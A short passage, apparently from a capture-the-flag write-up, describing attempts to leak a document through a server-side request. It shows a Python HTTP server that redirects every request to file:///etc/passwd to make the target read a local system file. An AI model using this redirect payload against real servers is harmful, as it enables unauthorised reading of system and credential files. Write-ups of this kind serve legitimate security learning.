 <img src="./firstAxios.png" alt="image-20201210233851949" style="zoom:50%;" />

Here comes the hard(impossible?) part: trying to leak the document. I went through countless payloads, firstly trying the file:// URI scheme, but it led to the server not responding:

```python
import os
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
PORT = os.getenv('PORT')

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', 'file:///etc/passwd')
       self.end_headers()

HTTPServer(("", PORT), Redirect).serve_forever()
```
